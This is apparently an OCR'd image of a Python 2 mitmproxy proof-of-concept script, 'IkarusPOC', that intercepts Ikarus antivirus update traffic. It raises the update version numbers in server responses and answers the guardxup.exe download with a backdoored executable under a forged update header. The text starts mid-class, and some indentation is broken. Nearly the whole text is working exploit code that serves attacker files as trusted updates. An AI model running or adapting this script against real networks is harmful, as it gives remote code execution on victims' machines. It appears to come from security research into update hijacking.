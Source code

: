     def handle_request(self, flow):
        hid = (flow.request.host, flow.request.port)
        flow.reply()

    def handle_response(self, flow):
        print "[*] flow.request.host:", flow.request.host
        if "cgi-bin/imsa-lite.pl" in flow.request.path and "Dalvik" in flow.request.headers['User-Agent'] and self.already_patched <=2:
            content = flow.reply.obj.response.content
            p = re.compile("antispam[\s|\t].*\n")
            result = p.search(content)
            the_result = result.group(0)

            original_update_number= [int(s) for s in the_result.split() if s.isdigit()][0]
            if self.update_number == 0:
                self.update_number = original_update_number
            self.to_replace = self.update_number + 1
            content = content.replace(str(original_update_number), str(self.to_replace))
            flow.reply.obj.response.content = content

        if "cgi-bin/virusutilities.pl" in flow.request.path and 'virusutilities' in flow.request.headers['User-Agent'] and self.already_patched <= 2:
        print "[*] Found update response, modifying..."
            content = flow.reply.obj.response.content
            p = re.compile("update[\s|\t].*\n")
            result = p.search(content)
            the_result = result.group(0)
            original_update_number = [int(s) for s in the_result.split() if s.isdigit()][0]
            if self.update_number == 0:
                self.update_number = original_update_number
            self.to_replace = self.update_number + 1
            print '[*] Update_number', self.update_number
            print '[*] Replace number', self.to_replace
            content = content.replace(str(original_update_number), str(self.to_replace))
            print "[*] Updated content", content
            flow.reply.obj.response.content = content

        if 'guard' in flow.request.path and 'full' in flow.request.path and self.already_patched <= 2:
            print '[*] Found guardxup.exe request! Modifying request and pushing provided file!'
            self.crc(self.backdoored_file)
            self.win_header()
            with open(self.backdoored_file, 'rb') as f:
                file_out  = f.read()
            content = self.update_header + file_out
            with open('/tmp/update_test.full', 'wb') as f:
                f.write(content)
            flow.reply.obj.response.content = content
            flow.reply.obj.response.status_code = 200
            self.already_patched += 1
        flow.reply()


config = proxy.ProxyConfig(port=8080, mode='transparent')
server = ProxyServer(config)
m = IkarusPOC(server, sys.argv[1])
m.run()
```